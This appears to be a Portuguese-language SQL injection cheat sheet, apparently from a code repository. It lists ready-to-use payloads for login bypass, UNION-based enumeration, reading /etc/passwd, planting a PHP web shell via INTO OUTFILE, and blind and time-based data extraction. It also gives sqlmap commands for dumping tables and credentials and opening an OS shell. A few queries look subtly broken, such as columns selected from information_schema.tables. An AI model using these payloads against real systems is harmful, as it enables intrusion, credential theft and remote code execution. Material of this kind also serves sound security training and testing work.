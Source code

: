 # SQL Injection (SQLi)

## Bypass Authentication
Uma forma de burlar formulários de login que utilizam requisições SQL é alterar a query criando uma lógica sempre verdadeira e comentando o resto do código. Primeiro envie caracteres especiais como `\` e `'` e analise o comportamento da aplicação. Confirmando a vulnerabilidade de SQLi utilize um payload que será sempre verdadeiro como no exemplo:

`' or 1=1#`

## SQL Error Based

É um SQLi baseado em erro, testamos a aplicação enviando caracteres como `\` ou `'` e recebemos um erro.    

### Descobrindo quantidade de colunas da tabela

Para descobrir a quantidade de colunas na tabela e onde os dados estão sendo retornados na página, utilize `' UNION SELECT 1 %23` e vá incluindo outros valores após o 1 no select, até a consulta retornar os valores utilizados no select refletidos na página.  

`http://www.alvo.com.br/info.php?p=' union select 1,2,3,4,5 %23'`

Outra forma seria utilizando `ORDER BY 1` e tentando ordenar a consulta pelo número da coluna. Vá aumentando o valor de 1 até a aplicação indicar que não existem mais colunas.

`http://www.alvo.com.br/info.php?p=' order by 6 %23'`

### Exploração

Após identificar a quantidade de colunas e quais estão sendo refletidas na página, utilize comandos de SQL no lugar das colunas refletidas para exibir a resposta da consulta.

`http://www.alvo.com.br/info.php?p=' union select 1,2,version(),user(),database() %23'`

### Bypass Addslash

Algumas aplicações podem adicionar uma ``\`` no valor do parâmetro ao tratar as informações, essa função pode acabar quebrando a nossa query. Uma forma de realizar o bypass é enviando o valor do parâmetro em ASCII.

Para converter uma string em ASCII Decimal utilize:
`echo -n "valor" | od -An -tDC`

**Comandos:**  
Retornar o nome de todas as tabelas do information_schema  
`' union select 1,2,table_name,4,5 from information_schema.tables %23'`

Retornar o nome de todas as tabelas de um banco específico  
`' union select 1,2,table_name,4,5 from information_schema.tables where table_schema="nome_banco" %23'`

Retornar o nome de todas as colunas de um banco  
`' union select 1,2,column_name,4,5 from information_schema.tables where table_schema="nome_banco" %23'`

Retornar o nome de todas as colunas de uma tabela  
`' union select 1,2,column_name,4,5 from information_schema.tables where table_schema="nome_banco" and table_name="nome_tabela" %23'`

Retornar valores de uma tabela  
`' union select 1,2,nome_coluna1,nome_coluna2,5 from nome_tabela %23'`
`' union select 1,2,concat(nome_coluna1,':',nome_coluna2),4,5 from nome_tabela %23'`

Ler arquivos do servidor  
`' union select 1,2,load_file("/etc/passwd"),4,5 %23'`

Criar arquivos no servidor  
`' union select 1,2,"<?php system($_GET['p']); ?>",4,5 INTO OUTFILE "/var/www/html/rce.php"%23'`

## Blind SQL Injection

É um SQLi onde a aplicação não retorna os dados da consulta em string (texto), mas sim um valor boleano (Verdadeiro ou Falso). Dessa forma, se quisessemos descobrir o nome do banco de dados teriamos que enviar diversas requisições perguntando se a posição 'x' é igual a letra 'y', por exemplo, a 'primeira' letra da nome do banco é a letra 'A'?. Quando o servidor retornar verdadeiro siginifica que é a letra está correta.  

### Brute force por palavra 

É possível realizar a técnica de brute-force para enumerar nomes de bancos de dados, tabelas e colunas comparando se o nome da base de dados é o nome que inserimos, caso a página retorne verdadeiro encontramos o nome. Utilize os caracteres encodados em ASCII para realizar a comparação, por exemplo:

`login=joao' and database() = char(100,98,109,114,116,117,114)`

### Brute force por caractere 

Essa técnica é mais demorada, pois irá realizar um burte-force por caracteres para descobrir informações do banco de dados.  
O primeiro passo é descobrir a quantidade de caracteres da palavra que está buscando com a condição `lenght(group_concat(table_name)) = 1`. Vá incrementando o valor até a requisição ser verdadeira. 
Após descobrir o tamanho utilize `substring(group_concat(table_name),1,1)` para extrair letra por letra da palavra até o tamanho máximo descoberto anteriormente. Utilize os caracteres encodados em ASCII para realizar a comparação.  

`login=joao' and ascii(substring((select group_concat(table_name) from information_schema.tables where table_schema="nome_banco"),1,1)) = 97 %23'`  

## Time Based SQL Injection

O Time Based SQLi baseado em tempo também retorna um valor boleano assim como o Blind SQLi, mas utiliza o comando `sleep()` para identicar quando uma aplicação está vulnerável ou não. Podemos utiliza a condição `if` para verificar se o que estamos buscando é verdadeiro ou falso.  

`login=joao' or if (ascii(substring(database(),1,1)), sleep(3),0) %23'`  

## Ferramentas

### sqlmap

Analisar um parâmetro
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste"`

Analisar um parâmetros com método POST
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" --forms`

Extrair nome dos bancos de dados
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" --dbs`

Extrair nome do banco de dados atual
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" --current-db`

Extrair nome das tabelas
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" -D nome_banco --tables`

Extrair nome das colunas
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" -D nome_banco -T nome_tabela --columns`

Extrais dados das colunas
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" -D nome_banco -T nome_tabela -C 'coluna1,coluna2' --dump`

Retonar usuário atual do banco
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" --current-user`

Retornar todos os usuários do banco
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" --users`

Retorna as credenciais dos usuários do banco
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" --passwords`

Subir shell em diretório com permissão
`sqlmap -u "http://www.alvo.com.br/info.php?p=teste" --os-shell`


